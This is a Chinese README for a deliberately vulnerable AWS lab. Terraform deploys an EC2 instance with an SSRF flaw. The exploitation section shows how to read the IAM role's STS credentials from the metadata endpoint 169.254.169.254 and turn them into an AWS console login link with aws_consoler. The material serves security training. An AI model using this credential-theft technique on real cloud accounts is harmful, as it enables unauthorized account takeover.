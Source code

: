 # AWS 控制台接管漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS 控制台接管漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的 STS 数据，从而接管 AWS 控制台。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/elastic_computing_service/console_takeover/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的 STS 数据。

读取 STS 信息

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```

![img](../../../images/1652434082.png)

利用 aws_consoler 生成 AWS 控制台访问链接

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

将生成的链接复制到浏览器中打开，就可以接管目标的 AWS 服务控制台了。

![img](../../../images/1652435065.png)

## 销毁环境

```shell
terraform destroy
```
